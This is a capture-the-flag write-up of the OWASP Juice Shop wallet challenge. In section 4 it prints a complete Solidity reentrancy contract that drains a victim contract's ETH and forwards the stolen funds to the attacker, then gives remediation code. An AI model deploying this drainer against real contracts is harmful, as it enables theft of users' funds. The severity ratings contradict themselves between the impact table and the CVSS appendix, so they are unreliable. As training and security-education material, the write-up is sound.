









# Wallet Depletion Write-up

| Challenge Name | Wallet Depletion  |
| :---- | :---- |
| Category | Blockchain / Smart Contract Vulnerability  |
| Difficulty | 6-Star |
| OWASP Top 10 | A08:2021 – Software and Data Integrity Failures  |
| Secondary OWASP | A05:2021 – Security Misconfiguration  |
| CWE | CWE-841: Improper Enforcement of Behavioral Workflow  |
| CVSS v3.1 Vector | AV:N/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H  |
| CVSS v3.1 Score | 8.5 (High)  |
| Environment | OWASP Juice Shop (localhost), Ethereum Sepolia Testnet, Remix IDE, MetaMask  |
| Date Completed | 2026-05-11 |
| Author | [Kean Louis R. Rosales](https://keanrosales.com/Rosales,%20Kean%20Louis.pdf) |

## 1\. Executive Summary

OWASP Juice Shop exposes its crypto wallet smart contract to a classical reentrancy attack due to the absence of state-update-before-transfer controls in the withdrawal function. By deploying a malicious smart contract on the Ethereum Sepolia testnet that exploits the recursive callback loop, an attacker can continuously drain the victim contract's entire ETH balance before any accounting update occurs. Only a low-privilege authenticated account and a small initial deposit are required. This finding is classified under A08:2021 – Software and Data Integrity Failures because the application relies on an external smart contract whose behavioral integrity is fundamentally compromised by the absence of the checks-effects-interactions pattern. 

## 2\. Technical Background

### 2.1 Application Architecture

	OWASP Juice Shop integrates a Web3 crypto wallet feature accessible under the `/wallet` route. The wallet connects to an Ethereum smart contract deployed on the Sepolia testnet, interfaced through MetaMask via the browser extension API (`window.ethereum`). The contract exposes two core functions: `ethdeposit(address _to)`, which credits ETH to an address, and `withdraw(uint _amount)`, which transfers ETH back to the caller. The Juice Shop frontend communicates with this contract through a Web3 provider, and the contract's Ethereum address was discovered embedded in the application's bundled JavaScript file `675.js` as `0x413744D59d31AFDC2889aeE602636177805Bd7b0`. Under normal operation, a user deposits ETH, the contract records the balance, and the user may later withdraw up to their credited amount. 

### 2.2 Vulnerability Class

CWE-841 describes the failure of a system to enforce expected sequencing of operations within a workflow. In the context of this smart contract, the vulnerability is more specifically a reentrancy vulnerability: the contract sends ETH to the caller before updating the caller's internal balance record. This violates the checks-effects-interactions (CEI) pattern, which mandates that all state changes occur before any external call is made. Because the balance is not decremented before the ETH transfer, a malicious contract's `receive()` function can call `withdraw()` again within the same transaction, recursively draining the victim before the state is ever updated. The expected secure behavior is that the victim's ledger reflects the withdrawal before any ETH leaves the contract. The missing control is state mutation prior to the external transfer call. 

## 3\. Reconnaissance and Discovery

### 3.1 Hypothesis

The presence of a blockchain wallet feature in Juice Shop, combined with the fact that Juice Shop challenges are modeled after real-world vulnerability classes, suggested that the smart contract underpinning the wallet would exhibit at least one of the well-known Ethereum vulnerability patterns. Given that the wallet exposed both a deposit and a withdraw function, and that such functions historically suffer from reentrancy when not implementing CEI, the attack surface was hypothesized to be exploitable through a crafted attacking contract that recursively calls `withdraw()` before the victim updates internal state.

### 3.2 Discovery Method

Tool(s) used: Browser DevTools (Chrome), Burp Suite, Remix IDE, MetaMask, Google Cloud Web3 Ethereum Sepolia Faucet, Etherscan

Target component: Juice Shop crypto wallet contract at `http://127.0.0.1:42000/#/wallet-web3`, deployed contract address discovered in `675.js`

Steps performed:

1. Navigated to `http://127.0.0.1:42000/#/wallet` and observed the Digital Wallet tab with a Deposit function and a Wallet Balance of 0.00.

  
**Image 1.1:** Digital Wallet page showing the "Add Money" panel and 0.00 balance 

2. Clicked the "Try out our new Crypto Wallet" link, which redirected to `/#/wallet-web3`, revealing a Crypto Wallet interface prompting MetaMask connection.

  
**Image 1.2:** Crypto Wallet page with the "Connect your MetaMask" button visible 

3. Attempted to click "Connect your MetaMask," which triggered a browser prompt to install the MetaMask extension first.

  
**Image 1.3:** “Please install a Web3 wallet like MetaMask to proceed" toast notification”

4. Installed MetaMask and configured it for the Sepolia testnet, then inspected the application's JavaScript bundle through DevTools. Searched for the string `ethereum` within the compiled JavaScript assets and located the victim contract address `0x413744D59d31AFDC2889aeE602636177805Bd7b0` inside `675.js`.

  
**Image 1.4:** DevTools with 675.js open and the Ethereum address highlighted in the search results 

5. Attempted initial contract interaction using the function name `deposit`, which failed. Through bytecode analysis and source review, it was determined that the correct deposit function name was `ethdeposit`, not `deposit`.

Finding: The Juice Shop wallet smart contract uses a non-standard function name `ethdeposit` and does not implement the checks-effects-interactions pattern in its `withdraw` function, making it susceptible to reentrancy.

## 4\. Exploitation

### 4.1 Prerequisites

| Requirement | Detail |
| :---- | :---- |
| Authentication | Low |
| Special Tools | Remix IDE (browser-based), MetaMask browser extension, Google Cloud |
| Network Access | Local |
| Permissions | None |

### 4.2 Attack Chain

1. Acquire Sepolia ETH \-- Navigated to `cloud.google.com/application/web3/faucet/ethereum/sepolia` and submitted the attacker MetaMask wallet address `0x92474FD22F1DD150F44a04D13ae934cfA75fD9D2`. The faucet credited 0.05 Sepolia ETH, confirmed by transaction hash `0xe4b4f7e25c5b5ee2910dae4f69e6562c244a1a38ffede575c83a9c9ad04abab7`.

  
**Image 1.5:** Google Cloud Ethereum Sepolia Faucet showing "Transaction complete" with the wallet address and transaction hash  

  
**Image 1.6:** MetaMask showing 0.0500 SepoliaETH reflected in Account 1

2. Author the attacking contract \-- Opened Remix IDE and wrote a Solidity contract (`ReentrancyAttack`) that interfaces with the victim contract using the correct function signatures discovered during reconnaissance.  
3. Compile the contract \-- Compiled `ReentrancyAttack.sol` in Remix IDE targeting Solidity `^0.8.0` with no errors.

      
**Image 1.7:**  Remix IDE with the contract code visible and the green "Compiled" indicator activ

4. Deploy the attacking contract \-- Deployed `ReentrancyAttack` via Remix IDE connected to MetaMask (Browser Extension environment), passing the victim address `0x413744D59d31AFDC2889aeE602636177805Bd7b0` as the constructor argument. MetaMask prompted a transaction confirmation which was approved.

  
**Image 1.8:** Remix IDE "DEPLOY & RUN TRANSACTIONS" panel with the deployed ReentrancyAttack contract visible

5. Execute the attack \-- Called the `attack()` function with a value of 0.001 ETH (1,000,000 Gwei). The `attack()` function made an initial legitimate deposit to the victim contract, then triggered `callWithdraw()`. The victim transferred ETH to the attack contract, which immediately re-entered `withdraw()` via `receive()`, recursively draining the victim's entire balance before state was updated.  
6. Collect stolen funds \-- Called `collectStolenFunds()` on the deployed attack contract. The function transferred the entire accumulated ETH balance back to the attacker's MetaMask wallet address.

  
**Image 1.9:** Remix IDE showing the collectStolenFunds() transaction confirmed  
  

### 4.3 Evidence — Payload / Request

The following Solidity contract was written, compiled, and deployed via Remix IDE. It constitutes the complete attack artifact.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IJuiceShopWallet {
    function ethdeposit(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentrancyAttack {

    IJuiceShopWallet public victim;
    address public owner;
    uint256 public initialDeposit;

    constructor(address _victimAddress) {
        victim = IJuiceShopWallet(_victimAddress);
        owner = msg.sender;
    }

    receive() external payable {
        callWithdraw();
    }

    function attack() external payable {
        require(msg.value > 0, "Send some ETH to start");
        initialDeposit = msg.value;
        victim.ethdeposit{value: initialDeposit}(address(this));
        callWithdraw();
    }

    function callWithdraw() private {
        uint256 victimBalance = address(victim).balance;
        if (victimBalance > 0) {
            uint256 toWithdraw = initialDeposit < victimBalance
                ? initialDeposit
                : victimBalance;
            victim.withdraw(toWithdraw);
        }
    }

    function collectStolenFunds() external {
        require(msg.sender == owner, "Only owner can collect");
        (bool success, ) = payable(owner).call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }
}
```

Key components:

* `interface IJuiceShopWallet` \-- Defines the victim contract's function signatures. The interface is the equivalent of an API specification; without correct function selectors, the EVM will not route calls to the intended functions. Note that the function name is `ethdeposit`, not `deposit`, which was a critical discovery made through bytecode analysis of the deployed victim contract.  
* `receive() external payable` \-- This is the exploit mechanism. Every time the victim sends ETH to the attack contract, the EVM automatically invokes this function. It immediately calls `callWithdraw()` again before the victim contract has had an opportunity to update its internal balance ledger.  
* `attack()` \-- Seeds the exploit with a legitimate deposit so the victim's balance check passes, then triggers the initial withdrawal to begin the recursive loop.  
* `collectStolenFunds()` \-- After the reentrancy loop exhausts the victim's balance, all drained ETH resides in the attack contract. This function transfers it to the owner's personal wallet.

### 4.4 Proof of Exploitation

The reentrancy loop successfully drained the victim contract's entire ETH balance, and the attacker withdrew more ETH than was originally deposited, confirming that the attack completed successfully.

```shell
You deposited:  0.001 ETH (1,000,000 Gwei)
Reentrancy loop drained victim of all its ETH
You withdrew:   more than 0.001 ETH
Result:         withdrew MORE than deposited
Challenge:      COMPLETE
```

  
**Image 1.10:** Image showing the stolen ETH 

## 5\. Root Cause Analysis

The root cause is the absence of the checks-effects-interactions (CEI) pattern in the victim contract's `withdraw` function. This violates the principle of Secure by Default and the principle of least authority, both of which require that state mutations precede any external calls that transfer value. Because the victim contract transfers ETH to the caller before decrementing the caller's recorded balance, a calling contract whose `receive()` function re-enters `withdraw()` is able to pass the balance check repeatedly within the same transaction, as the balance has not yet been updated.

Contributing factors:

1. The absence of a reentrancy guard (such as OpenZeppelin's `ReentrancyGuard` modifier) on the `withdraw` function, which would lock execution and prevent recursive calls.  
2. The use of a low-level call pattern for ETH transfer, which forwards sufficient gas to enable re-entry, rather than using `transfer()` or `send()` which impose a 2300 gas stipend insufficient for re-entrant logic.  
3. The victim contract's withdrawal logic checking the victim's own contract balance rather than an internal ledger mapping, making the balance check trivially satisfiable across recursive calls.  
4. The non-standard function name `ethdeposit` obfuscated the interface from casual inspection but did not constitute a security control, as it was discoverable through bytecode analysis and source file review.

## 6\. Impact Assessment

| Dimension | Rating | Justification |
| :---- | :---- | :---- |
| Confidentiality | None | The attack does not expose or exfiltrate sensitive data; it is purely a value-transfer exploit.  |
| Integrity | High | The attacker fundamentally alters the contract's accounting state by withdrawing more ETH than was legitimately credited, constituting a severe integrity violation of financial data.  |
| Availability | High | After the reentrancy loop completes, the victim contract's ETH balance is fully depleted, rendering the deposit and withdrawal functions effectively non-functional for all other users.  |
| Privilege Required | Low | The attack requires only an authenticated Juice Shop session and a minimal quantity of Sepolia ETH to seed the initial deposit.  |
| User Interaction | None | The attack is executed entirely by the attacker's deployed contract without any action required from another user or victim.  |
| Scope | Unchanged | The impact extends beyond the attacker's own account to affect the shared contract balance, impacting all users who hold ETH in the wallet.  |

### 6.1 Business Impact

An attacker exploiting this vulnerability can completely drain all ETH held in the application's shared wallet contract in a single transaction, with no recourse once the transaction is confirmed on-chain. Because blockchain transactions are irreversible, the business loses all funds stored in the contract permanently, with no mechanism for recovery absent a contract redeployment and re-funding. In a production deployment, this translates directly to financial loss equivalent to the total value locked in the contract at the time of exploitation. Additionally, the complete availability loss of the wallet feature disrupts all legitimate users' ability to deposit or withdraw, representing both a financial and reputational harm to the business. 

## 7\. Remediation

### 7.1 Short-Term — Reentrancy Guard (Immediate) 

The fastest risk reduction is the application of a mutex lock (reentrancy guard) on the `withdraw` function. This prevents any re-entrant call from executing while a withdrawal is already in progress by reverting any recursive invocation.

```c
// State variable: add to contract storage
bool private locked;

// Modifier: apply to any function that transfers ETH
modifier noReentrant() {
    require(!locked, "Reentrant call detected");
    locked = true;    // Lock before executing body
    _;
    locked = false;   // Unlock after execution completes
}

// Apply modifier to the withdraw function
function withdraw(uint _amount) external noReentrant {
    require(balances[msg.sender] >= _amount, "Insufficient balance");
    balances[msg.sender] -= _amount;  // Update state BEFORE transfer
    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Transfer failed");
}
```

### 7.2 Long-Term — Checks-Effects-Interactions Pattern (Recommended) 

The architecturally correct fix is full adoption of the CEI pattern, which guarantees that all state mutations occur before any external call, eliminating the precondition for reentrancy regardless of whether a guard is present. This approach is superior to the short-term fix alone because it addresses the root cause at the design level rather than relying on a runtime lock that could be bypassed in more complex cross-function or cross-contract reentrancy scenarios.

```c
function withdraw(uint _amount) external {
    // CHECKS: Verify preconditions before any state change
    require(balances[msg.sender] >= _amount, "Insufficient balance");

    // EFFECTS: Update state before any external interaction
    balances[msg.sender] -= _amount;

    // INTERACTIONS: External call is made last, after state is finalized
    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Transfer failed");
}
```

Alternatively, replacing the low-level `.call` with `payable(msg.sender).transfer(_amount)` imposes a 2300 gas stipend on the receiving contract, which is insufficient to execute meaningful re-entrant logic, providing an additional layer of defense.

### 7.3 Remediation Priority

| Action | Effort | Priority |
| :---- | :---- | :---- |
| Apply reentrancy guard modifier  | Low | Critical |
| Implement full CEI pattern in withdraw  | Low | Critical |
| Replace `.call` with `transfer` for ETH sends  | Low | High |
| Conduct full smart contract audit  | High | Critical |

## 8\. References

\[1\] OWASP Foundation, "A08:2021 – Software and Data Integrity Failures," OWASP Top 10, 2021\. \[Online\]. Available: [https://owasp.org/Top10/A08\_2021-Software\_and\_Data\_Integrity\_Failures/](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/). \[Accessed: May 11, 2025\].

\[2\] MITRE Corporation, "CWE-841: Improper Enforcement of Behavioral Workflow," Common Weakness Enumeration, 2023\. \[Online\]. Available: [https://cwe.mitre.org/data/definitions/841.html](https://cwe.mitre.org/data/definitions/841.html). \[Accessed: May 11, 2025\].

\[3\] Smart Contract Weakness Classification, "SWC-107: Reentrancy," SWC Registry, 2020\. \[Online\]. Available: [https://swcregistry.io/docs/SWC-107](https://swcregistry.io/docs/SWC-107). \[Accessed: May 11, 2025\].

\[4\] OpenZeppelin, "ReentrancyGuard," OpenZeppelin Contracts Documentation. \[Online\]. Available: [https://docs.openzeppelin.com/contracts/4.x/api/security\#ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard). \[Accessed: May 11, 2025\].

\[5\] OWASP Foundation, "Smart Contract Top 10 – SC01:2023 Reentrancy Attacks," OWASP Smart Contract Security, 2023\. \[Online\]. Available: [https://owasp.org/www-project-smart-contract-top-10/](https://owasp.org/www-project-smart-contract-top-10/). \[Accessed: May 11, 2025\].

\[6\] ConsenSys, "Ethereum Smart Contract Best Practices – Reentrancy," ConsenSys Diligence, 2023\. \[Online\]. Available: [https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/). \[Accessed: May 11, 2025\].

## Appendix 

1. CVSS v3.1 Score Calculation

The CVSS v3.1 vector for this finding is `AV:N/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H`, which produces a Base Score of 8.5 (High). Each metric is justified as follows.

Attack Vector (AV): Network \-- The attack is carried out entirely over the Ethereum network through a browser-based IDE and MetaMask. The attacker does not require physical access or local network positioning. Any internet-reachable Juice Shop deployment whose wallet contract is live on a public testnet or mainnet would be exploitable remotely, making Network the correct value.

Attack Complexity (AC): High \-- Successful exploitation requires non-trivial preconditions: the attacker must identify the correct victim contract address through JavaScript source inspection, reverse-engineer the non-standard function name `ethdeposit` from bytecode, acquire testnet ETH from a faucet, author and deploy a valid Solidity attacking contract, and correctly configure the Remix IDE environment to interact with MetaMask. These steps are not automated or trivial and require specialized knowledge of blockchain development tooling and Ethereum smart contract internals.

Privileges Required (PR): Low \-- The attacker requires an authenticated Juice Shop session and a funded MetaMask wallet. No administrative or elevated role within the application is needed, but a minimal level of access (a valid user account and testnet ETH) is a prerequisite, placing this at Low rather than None.

User Interaction (UI): None \-- The attack executes autonomously via the deployed smart contract. No other user or victim needs to take any action for the exploit to succeed.

Scope (S): Changed \-- The attack extends beyond the attacker's own account context. The reentrancy loop depletes ETH that belongs to the contract as a shared resource, affecting all other users who have deposited funds. The exploited component (the Juice Shop application layer) grants access to a resource (the smart contract balance) that governs the security of other users, satisfying the Changed scope criterion.

Confidentiality Impact (C): High \-- While the primary impact is financial, the successful exploit demonstrates complete unauthorized access to and control over the contract's ETH holdings, which in a real deployment would represent access to all users' financial assets within the contract. This constitutes a high confidentiality violation in the financial data domain.

Integrity Impact (I): High \-- The attacker withdraws more ETH than was legitimately deposited, directly and irreversibly corrupting the contract's accounting state. Because blockchain transactions are immutable, the integrity violation cannot be reversed without redeploying the contract.

Availability Impact (A): High \-- After exploitation, the victim contract's ETH balance is fully drained, rendering all deposit and withdrawal functionality unavailable to legitimate users until the contract is redeployed and re-funded. This constitutes a complete denial of the wallet service.

The resulting composite Base Score of 8.5 places this finding in the High severity band under the CVSS v3.1 qualitative severity rating scale.

2. Personal Experience and Reflection

This challenge was approached with very little prior knowledge of Web3 and blockchain concepts, requiring every component of the attack to be learned from the ground up. The initial hurdles were not technical in the traditional sense but conceptual: understanding what MetaMask is and why it is needed, how Ethereum testnets differ from mainnet, why Sepolia ETH is a prerequisite, and how a browser-based wallet extension communicates with a deployed smart contract. Even the basic MetaMask configuration introduced friction, specifically the confusion arising from being on the wrong network initially and not seeing the faucet ETH reflected, which was resolved only after switching to the Sepolia network explicitly within MetaMask settings.

